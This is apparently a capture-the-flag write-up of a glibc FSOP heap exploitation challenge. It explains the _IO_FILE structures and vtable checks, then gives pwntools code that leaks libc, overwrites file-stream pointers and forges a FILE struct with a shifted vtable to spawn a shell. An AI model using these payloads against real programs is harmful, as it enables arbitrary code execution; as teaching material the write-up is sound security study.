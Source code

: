This challenge was tough since I have not really touched on anything FSOP related outside of House of Orange, but it was for sure a great learning experience. I will say this out of the gate, I did not solve this challenge during the CTF but instead I continued to work on it for over the course of two weeks since to be honest there was a lot to learn.

To first understand how to solve this challenge, I will have to explain what file structures are. From what I understand and what I learned through debugging the heap memory, file structures are mostly here so whatever changes I do to the file that I wish to open will happen in heap memory first and once you call `fclose()` on the file pointer, then it will write to the disk. This is done because in C they legit only care about speed and nothing else, so that is good for us.

Now how FSOP works takes advantage of the `__IO_FILE_plus` struct that is used when working with file structures. The struct looks like this:

``` c
struct _IO_FILE_plus
{
  FILE file;
  const struct _IO_jump_t *vtable;
};
```

The real point of focus is the `vtable` at the end. Luckily, I already knew what a `vtable` was thanks to one of the challenges in the [pwnable.kr](https://pwnable.kr) website that I solved a little while back. In that challenge, from what I remember, I had to exploit a use-after-free bug in a C++ program that used objects. The way `vtables` are used in C++ is basically a lookup table for functions for each object, so for example multiple instances of a class will actually end up calling the same function addresses. And in this case the `vtable` pointer is the same way. Only problem though (and why the House of Orange only works on GLIBC 2.23 and below), the `vtable` pointer has to be within some adresses. Because of that, we cannot create our own `vtable` and instead we must play around with misaligning the vtable that we have and to try to find something that is modifyable by using [Angry FSROP](https://blog.kylebot.net/2022/10/22/angry-FSROP/). Also here is the layout of the `_IO_FILE` structure for future reference (since this will show up in the heap):

``` c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

Now with this knowledge, we will be able to solve this challenge. Also I took these structures from [here](https://niftic.ca/posts/fsop/).

The challenge calls `fread()` and `fwrite()` on different options and has an obvious buffer overflow that will let us overwrite both file structures for the read and write. Also everything is green except for PIE, so what I did was leak LIBC by reading the address of `stdout` in the `.bss` region by changing the pointer of the read file structure. I also leaked the stack but I didn't need it:

``` python
    leak = read_addr(io, 0x404010)
    libc = int.from_bytes(leak, "little") - l.sym["_IO_2_1_stdout_"] 

    print(f"============= Libc leak: {hex(libc)}")
    
    leak = read_addr(io, l.sym["environ"] + libc)
    stack = int.from_bytes(leak, "little") 

    print(f"============= Stack leak: {hex(stack)}")
```

Next I  overwrote (is that how you say it??) the write file structure to point to libc's `_IO_2_1_stdout_`:

``` python
    # buf base and buf end overflow on the write stream 
    payload = b"A"*0x28 + p64(0x1e1) + b"B"*0x1d8 + p64(0x1e1) 
    payload += p64(0xfbad2c84)
    payload += p64(l.sym["_IO_2_1_stdout_"] + libc)
    payload += p64(0) * 5
    payload += p64(l.sym["_IO_2_1_stdout_"] + libc)
    payload += p64(l.sym["_IO_2_1_stdout_"] + libc + 0x200)
    
    write_script(io, b"balls")
    set_name(io, payload)
```

Then I created a fake file structure while changing the `vtable` pointer to what angry-fsrop said:
``` python 
# create a fake file struct to use when calling the write stream
    file = FileStructure()
    file._IO_read_end = l.sym["system"] + libc
    file._IO_save_base = libc + 0x163830 # one gadget
    file._IO_write_end = u64(b"/bin/sh\x00")
    file._lock = libc + 0x21ba70
    file._codecvt = l.sym["_IO_2_1_stdout_"] + libc + 0xb8
    file._wide_data = l.sym["_IO_2_1_stdout_"] + libc + 0x200
    
    # modify the address of the vtable
    file.unknown2 = p64(0)*2 + p64(l.sym["_IO_2_1_stdout_"] + libc + 0x20) + p64(0)*3 + p64(l.sym["_IO_wfile_jumps"] + libc - 0x18) 

    #write_script(io, bytes(file))
    sla(io, b"Choice:", b"2")
    io.sendline(bytes(file))
```

And just like that, I have shell!!!! (WOOHOO, this was a pain!!!!)
